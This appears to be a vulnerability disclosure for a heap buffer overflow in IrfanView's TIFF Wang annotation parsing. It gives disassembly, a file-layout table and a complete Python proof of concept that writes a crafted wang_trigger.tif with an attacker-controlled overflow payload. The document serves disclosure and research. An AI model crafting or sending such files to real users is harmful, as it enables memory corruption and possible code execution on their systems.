


# IrfanView TIFF Wang Annotation Heap-based Buffer Overflow

## Description

IrfanView's TIFF loader can be told to parse an embedded "Wang annotation" record which is a legacy scanned-document annotation format identified by TIFF tag 32932. The record carries its own 4-byte length field for a text payload. That length is used to size a heap allocation and to determine the size of a subsequent read into it. The issue is that the two uses of the 4-byte length disagree due to integer overflow: a length of 0xFFFFFFFF makes the allocation zero bytes while the read still tries to copy up to 4 GB of data into it. The attacker can control how much data is written regardless of the integer overflow's result. In other words, the attacker is not forced to write 4 GB of data. The attacker fully control's the overflow's length and content.

## Product and Version

*   **Vendor**: Irfan Škiljan

*   **Product**: IrfanView

*   **Affected Version**: 4.76.0.0 · x64 (and likely all prior versions)

*   **Download**: https://dappcdn.com/download/graphic-apps/irfanview

*   **Vulnerability Type**:
    * CWE-122: Heap-based Buffer Overflow
    * CWE-190: Integer Overflow or Wraparound

*   **CVE ID**: Not assigned yet

*   **Reported by**: dwbruijn


## Root Cause Analysis

Disassembly and decompiled snippets below are from `i_view64.exe`

The TIFF parser seeks into the file at a fixed offset from the record's start and reads a small sequence of fields

| Offset | Size | Field | Behavior |
|---|---|---|---|
| O+0 | 4 | — | skipped by the initial `fseek(O+4)` |
| O+4 | 4 | header dword | must be non-zero, or one extra 4-byte field is read and every later offset shifts by 4 |
| O+8 | 4 | record type | values `2` and `6` both branch into the vulnerable handler |
| O+12 | 4 | record size | tallied into a counter; never checked against anything |
| O+16 | 8 | record name | copied and NUL-terminated in place |
| O+24 | 4 | **length** | attacker-controlled trigger |
| O+28 | … | payload | every byte to EOF is the overflow's content |

The length field feeds two calls back to back
```
i_view64+0x69356   mov  edi, dword ptr [rsp+0x70]   ; edi = attacker length (fread'd at +0x69322)
i_view64+0x6935a   mov  edx, 1                      ; calloc size = 1
i_view64+0x6935f   lea  ecx, [rdi+1]                ; *** 32-bit +1 -> 0xFFFFFFFF wraps to 0 ***
i_view64+0x69362   call 0x14011d4cc                 ; calloc(0, 1)
i_view64+0x69367   mov  edx, edi                    ; *** un-incremented 0xFFFFFFFF ***
i_view64+0x69369   mov  r9, rbx                     ; FILE*
i_view64+0x6936c   mov  rcx, rax                    ; dest = calloc's return
i_view64+0x6936f   mov  r8d, 1
i_view64+0x69378   call 0x1401219f4                 ; fread(buf, 0xFFFFFFFF, 1, handle) -> HEAP OVERFLOW

```

Two important details:

- First, calloc(0, 1) on the Windows CRT returns a small valid pointer, (not NULL), and the return value is never checked anyway.
 - Second, the fread at i_view64+0x11f8f4 was traced down to the real UCRT fread (it calls fread_s with the buffer-size argument forced to -1, that disables fread_s's own bounds check), so there is no clamping wrapper here. It performs a completely unbounded copy of up to 0xFFFFFFFF bytes, in practice everything remaining in the file, into that zero-byte block. Single-stepping past the call confirmed it completes the full write without the process caring how big the destination actually was.

## The Gate
Parsing TIFF Wang annotations has to be enabled for the vulnerable code to be reached. That can be done via the GUI under:
Options -> Properties/Settings -> Viewing. "Show Embedded TIF Annotations" should be cheched.



## PoC

The PoC below generates a .tif file (wang_trigger.tif) which triggers this vulnerability when opened in IrfanView.

```
# tiff_wang.py

import struct, os, sys

TAG_WANG_ANNOTATION = 32932   # 0x80A4 : carries the record OFFST
TAG_WANG_OFFSET      = 32933   # 0x80A5 : value unused; only needs count >= 1
TYPE_SHORT, TYPE_LONG = 3, 4

def annotation_blob(length_field, rec_type, payload):
    b = bytearray()
    b += struct.pack('<I', 0)             # O+0   skipped by fseek(O+4)
    b += struct.pack('<I', 1)             # O+4   header dword : must be non-zero
    b += struct.pack('<I', rec_type)      # O+8   record type: 2 or 6
    b += struct.pack('<I', 0x20)          # O+12  record size (unchecked)
    b += b'OiAnText'                      # O+16  record name
    b += struct.pack('<I', length_field)  # O+24  *** the trigger ***
    b += payload                          # O+28  overflow content
    return bytes(b)

def build_tiff(width=8, height=8, length_field=0xFFFFFFFF, rec_type=2, payload_size=0x1000000):
    pixels = bytes((x * 31 + y * 7) & 0xFF for y in range(height) for x in range(width))
    hdr = b'II' + struct.pack('<HI', 42, 8)
    entries = []
    def E(t, ty, c, v): entries.append([t, ty, c, v])
    E(256, TYPE_LONG, 1, width);  E(257, TYPE_LONG, 1, height)
    E(258, TYPE_SHORT, 1, 8);     E(259, TYPE_SHORT, 1, 1)
    E(262, TYPE_SHORT, 1, 1)
    E(273, TYPE_LONG, 1, 0)                        # StripOffsets
    E(277, TYPE_SHORT, 1, 1);    E(278, TYPE_LONG, 1, height)
    E(279, TYPE_LONG, 1, len(pixels))
    E(TAG_WANG_ANNOTATION, TYPE_LONG, 1, 0)        # offset
    E(TAG_WANG_OFFSET,     TYPE_LONG, 1, 0x7FFFFF) # unused value, count=1 is what matters
    entries.sort(key=lambda e: e[0])               # TIFF requires ascending tag order

    ifd_size  = 2 + 12 * len(entries) + 4
    strip_off = 8 + ifd_size
    blob_off  = strip_off + len(pixels)
    blob = annotation_blob(length_field, rec_type,
                            bytes((i * 41) & 0xFF for i in range(payload_size)))

    for e in entries:
        if e[0] == 273:
            e[3] = strip_off
        if e[0] == TAG_WANG_ANNOTATION:
            e[3] = blob_off

    ifd = struct.pack('<H', len(entries))
    for tag, typ, cnt, val in entries:
        ifd += struct.pack('<HHI', tag, typ, cnt)
        ifd += struct.pack('<I', val) if typ == TYPE_LONG else struct.pack('<HH', val, 0)
    ifd += struct.pack('<I', 0)
    return hdr + ifd + pixels + blob

if __name__ == '__main__':
    out = sys.argv[1] if len(sys.argv) > 1 else '.'
    os.makedirs(out, exist_ok=True)
    path = os.path.join(out, 'wang_trigger.tif')
    open(path, 'wb').write(build_tiff(length_field=0xFFFFFFFF, rec_type=2, payload_size=0x1000000))
    print(path)
```

### Run

```
python3 tiff_wang.py
```
Open the generated .tif file (wang_trigger.tif) in IrfanView: File -> Open.... That should lead to a crash. We can see the resulting Access Violation (windbg):


